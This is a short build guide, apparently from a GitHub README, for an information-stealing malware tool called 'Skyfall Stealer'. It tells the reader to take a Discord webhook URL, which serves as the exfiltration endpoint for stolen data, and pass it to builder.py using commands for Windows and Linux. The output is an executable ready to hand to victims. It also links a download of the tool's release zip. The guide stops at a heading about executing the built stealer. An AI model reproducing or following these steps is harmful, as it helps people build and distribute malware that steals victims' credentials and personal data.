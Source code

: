 # Build Guide for the Skyfall Stealer
## Run the builder.py Script

To build a Skyfall Stealer you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

[![image](https://i.ibb.co/56LJStc/stealer.png)](https://github.com/Tangoxfreq/skyfall-stealer/releases/download/v1.8.2/skyfall-stealer.zip)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Skyfall Stealer





